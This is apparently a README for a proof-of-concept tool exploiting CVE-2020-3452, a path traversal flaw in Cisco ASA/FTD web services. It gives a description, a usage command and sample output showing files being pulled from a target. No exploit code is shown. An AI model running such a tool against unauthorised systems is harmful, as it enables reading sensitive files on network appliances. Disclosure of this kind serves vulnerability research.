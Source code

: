 # Cisco Adaptive Security Appliance Software and Firepower Threat Defense Software Web Services Path Traversal Vulnerability

# CVE-2020-3452

Usage: CVE-2020-3452.py https://target

Vulnerability description: A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and read sensitive files on a targeted system.

Sample output:
```
➜  Cisco-ASA-FTD-Web-Services-Traversal git:(main) ✗ python CVE-2020-3452.py https://target
+-------------------------------------------------------------+

- [ Cisco ASA / FTD Web Services Traversal Vulnerability ]

-       -[ CVE-2020-3452 - PoC by: LiquidSky ^_^ ]-

+-------------------------------------------------------------+
[*] Checking potential target : https://target
[+] https://target is vulnerable... 
[+] Grabbing logo.gif from the host.
[+] https://target is vulnerable... 
[+] Grabbing http_auth.html from the host.
[+] https://target is vulnerable...
```
